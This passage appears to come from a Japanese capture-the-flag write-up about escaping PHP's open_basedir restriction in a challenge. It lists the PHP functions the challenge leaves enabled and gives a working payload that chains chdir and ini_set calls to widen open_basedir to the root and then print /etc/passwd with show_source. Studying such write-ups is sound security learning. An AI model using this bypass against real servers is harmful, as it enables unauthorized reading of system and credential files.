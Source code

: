 `open_basedir` も `/var/www/html/` に設定されています。問題文によればフラグは `/` にあるようですから、`/var/www/html/` 下のファイルしか読めないとなると困ります。

とりあえず、まず使える関数やクラスを確認する PHP スクリプトを書きましょう。

```php
<?php
function get_diff($a, $b) {
  $a = file_get_contents($a);
  $a = str_replace(' ', '', $a);
  $a = explode(',', $a);

  return implode(', ', array_diff($b, $a)) . "\n";
}

echo "functions: " . get_diff('disable_functions.txt', get_defined_functions()['internal']);
echo "classes: " . get_diff('disable_classes.txt', get_declared_classes());
```

実行します。問題サーバで使われている PHP のバージョンは 7.2.34 ですからFFI 関連のクラスはないでしょうが、有用そうな関数やクラスがいくつかあります。

```
$ php check.php 
functions: strlen, error_reporting, preg_match, phpinfo, ord, getenv, show_source, ini_set, header, chdir, cli_get_process_title
classes: Exception, ErrorException, CompileError, ClosedGeneratorException, WeakReference, ReflectionReference, SodiumException, FFI\Exception, FFI\ParserException, FFI, FFI\CData, FFI\CType, finfo, JsonException
```

特に `chdir` が重要で、実は[これを使った `open_basedir` のバイパス手法](https://blog.shpik.kr/php,/bypass,/open_basedir/2019/04/05/PHP_Open_basedir_Bypass.html)が存在しています。この問題でも使えないでしょうか。

---

競技時間中はここまでしかできませんでした。というのも、今紹介した `open_basedir` のバイパス手法のひとつは、`open_basedir` に設定されているディレクトリ (今回では `/var/www/html`) 下にあるディレクトリに `chdir` できることが前提条件であり、この問題では `/var/www/html` 下にあるディレクトリの存在がわからなかったためです。

競技終了後に公式 Discord サーバを眺めていると、実は `images` というディレクトリがあることがわかりました。なんじゃそりゃ。試してみましょう。

以下のようなコードを実行させてみます。

```
error_reporting(E_ALL);
ini_set('display_errors', 1);
chdir('images');
ini_set('open_basedir', '..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir', '/');
show_source('/etc/passwd');
```
